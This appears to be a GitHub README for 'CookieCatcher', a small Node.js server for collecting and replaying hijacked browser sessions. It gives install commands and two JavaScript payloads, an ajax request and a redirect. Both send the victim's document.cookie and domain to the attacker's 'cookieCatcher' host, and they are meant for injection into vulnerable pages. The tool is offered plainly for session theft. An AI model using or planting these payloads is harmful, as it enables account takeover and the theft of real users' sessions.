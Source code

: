 # CookieCatcher (version. 0.0.1)
This is a mini and simple API REST for management of Web sessions that were hijacked.

### Features (that is simple)
- Capture request through GET or POST (method)
- Parse to cookies format
- Create script for import in browser

### How to install this little devil?
Server
```sh
$ git https://github.com/JavaGarcia/CookieCatcher.git
$ cd CookieCatcher
$ npm install
$ sudo DEBUG=APIcookies:* ./bin/www
```
### Scheme to send requests
Example with ajax (POST or GET)
```javascript
$.ajax({
        type: "POST",//or GET
        url: "http://cookieCatcher/session",//obviously change (cookieCatcher).
        data:"domain="+document.domain+"&cookie="+document.cookie,
        success: function(datos){/*if you want to show something.*/}
});
```
Normal request GET (redirect)
```javascript
document.location.href="http://cookieCatcher/session/"+document.domain+"/"+document.cookie;
```

